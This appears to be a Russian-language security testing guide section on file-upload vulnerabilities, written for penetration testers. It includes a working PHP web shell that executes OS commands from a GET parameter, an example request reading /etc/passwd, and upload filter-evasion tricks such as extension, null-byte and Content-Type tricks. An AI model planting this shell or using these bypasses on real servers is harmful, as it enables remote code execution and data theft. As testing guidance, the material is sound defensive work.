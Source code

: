 ## Как тестировать

### Вредоносные типы файлов

Простейшие проверки, которые может выполнить приложение, — определить, что могут быть загружены только доверенные типы файлов.

#### Web-оболочки

Если сервер настроен на выполнение кода, то можно добиться выполнения команды на сервере, загрузив файл, известный как web-оболочка, который позволяет выполнять произвольный код или команды операционной системы. Чтобы эта атака была успешной, файл необходимо загрузить в каталог webroot, а сервер должен быть настроен для выполнения кода.

Загружать такую оболочку на сервер с выходом в Интернет опасно, потому что это позволяет любому, кто знает (или догадывается) о местонахождении оболочки, выполнять код на сервере. Для защиты оболочки от несанкционированного доступа можно использовать ряд методов, таких как:

- Загрузка оболочки со случайно сгенерированным именем.
- Защита оболочки паролем.
- Ограничение подключений к оболочке по IP-адресам.

**Не забудьте удалить оболочку, когда закончите!**

В приведённом ниже примере показана простая оболочка на PHP, которая выполняет команды операционной системы, переданные ей в параметре GET, и доступ к ней возможен только с определённого IP-адреса:

```php
<?php
    if ($_SERVER['REMOTE_HOST'] === "FIXME") { // Укажите свой IP-адрес here
        if(isset($_REQUEST['cmd'])){
            $cmd = ($_REQUEST['cmd']);
            echo "<pre>\n";
            system($cmd);
            echo "</pre>";
        }
    }
?>
```

Как только оболочка загружена (со случайным именем), вы можете выполнять команды операционной системы, передавая их в параметре GET `cmd`:

`https://example.org/7sna8uuorvcx3x4fx.php?cmd=cat+/etc/passwd`

#### Уклонение от фильтра

Первым делом надо определить, что фильтры разрешают или блокируют, и где они реализованы. Если ограничения применяются на стороне клиента с помощью JavaScript, то их можно банально обойти с помощью перехватывающего прокси.

Если фильтрация выполняется на стороне сервера, то могут быть предприняты различные способы ее обхода, в том числе:

- Измените значение `Content-Type` на `image/jpeg` в HTTP-запросе.
- Измените расширения на менее распространённые, например, `file.php5`, `file.shtml`, `file.asa`, `file.jsp`, `file.jspx`, `file.aspx`, `file.asp`, `file.phtml`, `file.cshtml`
- Измените некоторые буквы в расширении на заглавные, например, `file.PhP` или `file.AspX`
- Если в запросе содержится несколько наименований файлов, замените их разными значениями.
- Используйте специальные завершающие символы, например, пробелы, точки или пустые (null), например, `file.asp...`, `file.php;jpg`, `file.asp%00.jpg`, `1.jpg%00.php`
- В плохо настроенных версиях nginx при загрузке файла, например, `test.jpg/x.php` может разрешаться его выполнение как `x.php`.
